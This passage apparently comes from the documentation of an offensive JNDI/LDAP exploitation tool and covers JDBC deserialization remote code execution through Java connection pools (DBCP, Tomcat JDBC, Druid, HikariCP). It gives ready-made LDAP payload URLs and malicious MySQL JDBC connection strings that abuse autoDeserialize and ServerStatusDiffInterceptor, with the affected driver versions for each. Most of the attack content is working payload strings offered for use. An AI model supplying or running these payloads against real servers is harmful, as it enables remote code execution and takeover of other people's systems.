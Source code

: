 Support JDBC RCE for the following database connection pools

- Commons DBCP
- Tomcat DBCP
- Tomcat JDBC
- Alibaba Druid
- HikariCP

Replace the `Factory` in the URL with one of the following:

- CommonsDBCP1
- CommonsDBCP2
- TomcatDBCP1
- TomcatDBCP2
- TomcatJDBC
- Druid
- HikariCP

Because Alibaba Druid's DruidDataSourceFactory doesn't support the breakAfterAcquireFailure and connectionErrorRetryAttempts parameters, by default, if the JDBC connection fails, an infinite retry cycle will occur in the newly created thread. This can cause the console to continuously output error messages and lead to log explosion and other problems. Using this feature is not recommended unless necessary. Reference: [https://github.com/alibaba/druid/issues/3772](https://github.com/alibaba/druid/issues/3772)*

### MySQL

#### MySQL JDBC Deserialization RCE

```bash
# detectCustomCollations (5.1.19-5.1.48, 6.0.2-6.0.6)
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize1/127.0.0.1/3306/root

# ServerStatusDiffInterceptor

# 5.1.11-5.1.48
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize2/127.0.0.1/3306/root

# 6.0.2-6.0.6
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize3/127.0.0.1/3306/root

# 8.0.7-8.0.19
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize4/127.0.0.1/3306/root
```

JDBC URL (for reference)

```bash
# detectCustomCollations (5.1.19-5.1.48, 6.0.2-6.0.6)
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=123

# ServerStatusDiffInterceptor

# 5.1.11-5.1.48
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=test

# 6.0.2-6.0.6
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=test

# 8.0.7-8.0.19
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=test
```
